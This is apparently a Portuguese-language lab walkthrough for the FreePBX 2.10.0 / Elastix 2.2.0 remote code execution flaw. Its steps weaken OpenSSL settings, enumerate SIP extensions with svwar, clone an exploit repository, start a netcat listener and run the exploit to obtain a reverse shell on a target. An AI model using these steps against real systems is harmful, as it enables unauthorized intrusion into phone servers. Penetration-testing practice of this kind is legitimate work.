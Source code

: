 # FreePBX 2.10.0 | Elastix 2.2.0 - Remote Code Execution

No Kali, abra o arquivo de configuração do OpenSSL:
```
mousepad /etc/ssl/openssl.cnf
```
No final, comente o MinProtocol, CipherString e inclua uma configuração menos segura (temporariamente). Ficando dessa forma:
```
[system_default_sect]
# MinProtocol = TLSv1.2
MinProtocol = None # remover depois

# CipherString = DEFAULT:@SECLEVEL=2
CipherString = None # remover depois
```

Instale o Sipvicious, pois precisaremos do utilitário **svwar** para a exploração:
```
apt install sipvicious
```
*SIPVicious OSS é um conjunto de ferramentas de segurança que podem ser usadas para auditar sistemas VoIP baseados em SIP. Especificamente, ele permite que você encontre servidores SIP, enumere extensões SIP e quebre senhas.*

Execute o comando abaixo informando o IP do target. Procure pela Extension definida como "reqauth", neste caso, é a extensão 238:
```
svwar -m INVITE -e100-300 192.168.10.152
```
![image](https://user-images.githubusercontent.com/76706456/222012396-e0d01a61-cebe-4b9e-bfb9-efd9bb279ef5.png)

Baixe o exploit:
```
git clone https://github.com/d3fudd/FreePBX-2.10.0-Elastix-2.2.0-Remote-Code-Execution
```

Modifique o exploit informando o IP do target, IP do Kali, porta listener e número da extensão identificada na etapa anterior:
```
cd FreePBX-2.10.0-Elastix-2.2.0-Remote-Code-Execution/
```
```
mousepad exploit.py
```
![image](https://user-images.githubusercontent.com/76706456/222012106-07153622-069e-45d9-aeb7-809edfc39c80.png)

Salve o script e abra a porta 8081/TCP no Kali:
```
rlwrap nc -vnlp 8081
```

Execute o exploit:
```
python2 exploit.py
```

Observe que foi obtido reverse shell:

![image](https://user-images.githubusercontent.com/76706456/222012214-4a1730af-10ff-4864-b5a7-e58333a8a334.png)
